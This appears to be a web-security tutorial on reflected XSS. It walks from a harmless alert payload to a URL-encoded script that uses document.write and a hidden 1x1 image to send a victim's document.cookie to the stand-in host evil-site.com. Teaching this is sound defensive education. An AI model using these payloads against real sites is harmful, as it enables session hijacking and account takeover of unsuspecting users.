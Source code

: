 # Reflected XSS

We got introduced to **Reflected XSS** in the previous section, in short it is a type of vulnerability that gets reflected to you when triggered.

We discussed in previous example how we could send some URL string like,

`https://https://example-site.com/search?term=<script>alert("XSS")</script>`

and the user visiting the URL will be greeted with `XSS`.
Well, this isn't the thing that a malicious attacker would do, is it?

So, how can we convert the above code to something harmful?

>**Note:** The purpose of this lesson is to teach you how malicious actors think, and not how to become one.

Let's imagine you are logged in to that e-commerce site.
And say it uses cookie based authentication mechanism. Which means anyone who has your cookies can impersonate the server to think that the user is actually you.

Let us say we are *attacker* and the user who has no idea what we are going to do is *victim*.

As an attacker, our goal is to impersonate the server to think we are the *victim* user.But, we need ourself to authenticate using login credentials. Sad thing is, *we don't have it!*.

**Let's steal! ;)**

We need `document.cookie`, it is a variable that stores cookies of every site you visit, individually.

Now we know what we need to include in the code.

```html
  <script>alert(document.cookie)</script>
```

Voila! We see our cookies in the alert box. You might think this is it. But, when a victim visits our new url,

`https://fake-ecommerce-121255.com/search?term=<script>alert(document.cookie)</script>`

the victim sees the cookie and wonder's th!

But, we don't actually have it, do we? Now, to actually get the cookie we use a neat idea.

Let's say we have a evil website `https://evil-site.com`.

What we try to do is send a HTTP request to our evil site with cookies in the URL parameter and later retrieve it. But, how?

What if we sent it using a HTTP Request from an image! 

Like,

```html
<img src="https://evil-site.com/cookie?cookie=victim-cookie-here">
```

Looks like a  good idea, but how are we gonna attach `document.cookie` in `src` attribute. 

That isn't possible as attributes doesn't support string concatenation like **JavaScript**.

Let's think it clearly, we can use `script` tag though!

So lets use `document.write` to output `img` tag instead of putting `img` directly,

```html
  <script>document.write("<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Now, lets paste the above code in the URL query parameter. 

It doesn't work! Wth! What happened? The payload didn't work because of how the browser URL works, you must **URL Encode** them before sending.

`%3Cscript%3Edocument.write%28%22%3Cimg%20src%3D%27https%3A%2F%2Fevil-site.com%2Fcookie%3Fcookie%3D%22%20%2B%20document.cookie%20%2B%20%22%20%27%3E%22%29%3C%2Fscript%3E`

This is the final payload, now this will send the `document.cookie` to the evil site that we provided.

But in real life, wouldn't it be better if we could hide that weird image thumbnail?

Let's set width and height for the image.

```html
  <script>document.write("<img width='1' height='1' src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Voila! No image at all! You can now play around with various tags and attributes and explore further.